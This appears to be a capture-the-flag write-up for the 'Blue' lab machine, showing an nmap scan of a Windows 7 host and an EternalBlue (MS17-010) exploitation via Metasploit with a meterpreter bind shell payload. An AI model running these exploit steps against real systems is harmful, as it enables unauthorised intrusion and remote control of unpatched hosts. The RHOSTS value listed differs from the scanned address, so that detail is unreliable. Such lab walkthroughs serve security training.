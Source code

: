 ![Image](/assets/Blue.png)

Blue is perhaps the most trademarked and popular box on the platform, and for good reason. It's a very easy and simple setup meant to test the attacker's understanding of metasploit, CVE research, and basic linux commands. There is no better place to start, so why don't we?
# Scan

Our Scan:
`nmap -sV -sC --open -p- 10.10.10.40` 

The Result:
```
Nmap scan report for 10.10.10.40
Host is up (0.13s latency).
Not shown: 64243 closed tcp ports (reset), 1283 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m56s, deviation: 34m34s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-03T00:23:26
|_  start_date: 2024-09-03T00:20:34
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-09-03T01:23:29+01:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.69 seconds
```

Our NMAP scan gives us solid information. We've got host names, remote procedure call (RPC) ports, etc. The gem here lies in the smb scripts NMAP has run for us! We can see an outdated version of Windows 7, and upon further research, can recognize the vulnerability in MS17_010 or Eternal Blue. This will be our attack vector.

# Initial Access

In order to press on, we need to fire up msfconsole, and search for our proper exploit.

`search exploit/windows/smb/ms17_010_eternalblue` 

Once found, we can configure out options to reflect:

`RHOSTS: 10.0.10.40`
`RPORT: 445`
`LHOST: 10.0.2.15`
`LPORT: 4444`

Additionally, the `reverse/tcp` recommended payload kept throwing errors for me, so I opted for a `bind_tcp` meterpreter session instead.

`set payload windows/x64/meterpreter/bind_tcp`

This yields a shell:

![Image](/assets/Screenshot 2024-09-02 at 9.13.55 PM.png)

Now, we need to root around for a flag. Use `pwd` and `ls` to scope surroundings, and use `cd ../` to backtrack out of the nonsense. Once the users directory is found, navigate towards the desktop, where the flag resides. I'll let you grab these for yourself! 

#easy #windows #msfconsole 